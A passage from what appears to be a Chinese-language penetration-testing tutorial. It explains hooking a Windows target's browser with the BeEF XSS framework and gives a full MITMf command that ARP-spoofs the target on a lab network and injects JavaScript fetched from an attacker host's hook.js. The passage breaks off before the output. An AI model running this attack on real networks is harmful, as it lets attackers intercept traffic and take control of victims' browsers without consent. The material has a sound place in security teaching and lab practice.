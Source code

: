 1.  我们将启动 BeEF XSS 框架。它使用 JavaScript 代码来 hook 目标计算机；一旦计算机被 hook，我们将能够运行许多命令。以下是它的外观截图：

![](img/ed78399d-7026-4614-ac7f-19ea2586bffb.png)

1.  要运行这些命令，我们将使用中间人攻击来自动注入 BeEF 的 hook 代码。我们将使用一个名为 MITMf 的工具来执行 ARP 欺骗攻击。我们将提供网络接口、网关和目标 IP 地址，即 Windows 机器的地址。

1.  接下来，我们将告诉 MITMf 我们希望它注入一个 JavaScript URL，并给出存储 hook 的位置。代码将类似于这样：

```
mitmf --arp --spoof -i eth0 --gateway 10.0.2.1 --target 10.0.2.5 --inject --js-url http://10.0.2.15:3000/hook.js
```

1.  一旦完成这个步骤，按下*Enter*，它将成功运行。其输出如下所示：
